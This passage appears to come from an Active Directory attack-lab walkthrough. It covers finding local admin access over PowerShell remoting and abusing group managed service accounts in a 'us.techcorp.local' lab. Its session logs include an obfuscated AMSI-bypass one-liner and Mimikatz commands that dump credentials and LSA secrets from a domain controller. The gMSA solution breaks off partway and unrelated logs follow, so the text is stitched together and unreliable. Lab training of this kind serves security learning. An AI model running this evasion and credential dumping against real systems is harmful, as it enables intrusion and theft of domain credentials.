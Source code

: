In the new process.

```
C:\Windows\system32> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\Windows\system32> Import-Module C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1

PS C:\Windows\system32> Find-PSRemotingLocalAdminAccess -Domain us.techcorp.local -Verbose

VERBOSE: Trying to run a command parallely on the provided computers list using PSRemoting.
US-HelpDesk 🖥️
US-ADConnect 🖥️
```

So, `helpdeskadmin` has administrative privileges on `us-adconnect` too.

---
---

## GMSA (Group Managed Service Account) Abuse

### Lab: Hands-On #10.1

#### Tasks

- Enumerate gMSAs in the `us.techcorp.local` domain
- Enumerate the principals that can read passwords from any gMSAs
- Compromise one such principal and retrieve the password from a gMSA
- Find if the gMSA has high privileges on any machine and extract credentials from that machine

#### Tools

- `InviShell`
- `ADModule`
- `ArgSplit`
- `NetLoader`
- `Rubeus`
- `DSInternals`
- `Find-PSRemotingLocalAdminAccess`

#### Solution

- Enumerate gMSAs in the `us.techcorp.local` domain

```
C:\AD\Tools> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'